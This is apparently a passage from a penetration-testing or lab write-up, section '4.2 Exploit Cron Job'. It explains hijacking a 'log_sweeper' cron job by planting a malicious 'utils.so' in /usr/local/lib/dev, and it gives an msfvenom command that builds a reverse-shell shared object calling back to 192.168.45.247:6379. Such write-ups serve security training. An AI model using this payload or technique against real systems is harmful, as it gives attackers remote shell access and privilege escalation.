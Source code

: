 ![](images/2025-08-31_10.png)

## 4.2 Exploit Cron Job
To exploit out `log_sweeper` cron job, all we need to do is generate a milicious shared object file named `utils.so` and place it in the `/usr/local/lib/dev` directory. First, we'll generate out malicious payload shareed object `.so` file.

```bash
msfvenom -p linux/x64/shell_reverse_tcp -f elf-so -o utils.so LHOST=192.168.45.247 LPORT=6379
```
![](images/2025-08-31_11.png)
